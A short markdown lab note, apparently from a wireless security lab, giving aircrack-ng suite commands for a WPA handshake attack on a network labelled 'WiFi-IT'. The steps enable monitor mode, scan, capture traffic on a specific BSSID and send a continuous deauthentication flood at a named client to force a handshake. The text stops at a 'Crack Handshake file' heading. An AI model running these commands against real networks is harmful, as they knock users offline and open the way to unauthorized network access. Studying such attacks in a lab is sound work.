 # Start wireless to monitor mode

```bash
airmon-ng start wlan0
```

# Kill unnessary process

```bash
airmon-ng check kill
```

# Scanning Wireless Network

```bash
airodump-ng wlan0mon
```

# Sniff WiFi-IT ( Wireless Labs Network) and Waiting Handshake

```bash
sudo airodump-ng -c 3 --bssid F0:9F:C2:1A:CA:25 -w wifi-IT wlan0mon
```
# Dauth Attack from other terminal and check Sniff session (EAPOL and Handshake Cpature)

```bash
sudo aireplay-ng -0 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52 wlan0mon
```

# Crack Handshake file 